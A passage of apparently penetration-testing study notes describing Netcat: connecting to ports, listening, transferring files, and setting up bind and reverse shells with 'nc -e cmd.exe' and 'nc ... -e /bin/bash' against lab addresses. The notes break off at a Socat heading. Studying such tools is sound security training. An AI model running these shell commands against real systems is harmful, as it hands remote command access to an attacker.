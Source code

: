 ```yaml
---
description: Practical Tools
---
```


# Chapter 4

* **Netcat** - versatile network penetration testing tool, reads and writes data across network connections using TCP or UDP protocols.
  * client or server mode
  * Connecting to TCP/UDP Port
    * e.g.     nc -n -v 10.11.0.22 110
  * Listening to TCP/UDP Port
    * e.g.     rdesktop to connect,
    * e.g.     nc -nvlp 4444
  * Transferring Files
    * e.g.     nc -nvlp 4444 > incoming.exe
    * e.g.     nc -nv 10.11.0.22 4444 < wget.exe(location)
  * Remote Administration
    * \-e redirects input, output, and errors to TCP/UDP port
      * e.g.     NC Bind shell scenario
        * nc -nvlp 4444 -e cmd.exe
          * bind port 4444 to cmd.exe and output messages to the network

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Netcat bind shell scenario</p></figcaption></figure>

* nc -nv 10.11.0.22 4444 -e /bin/bash
  * Alice's netcat will redirect /bin/bash input, output and error data streams to Bob's machine on port 4444

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>Netcat reverse shell scenario</p></figcaption></figure>

* **Socat** -&#x20;
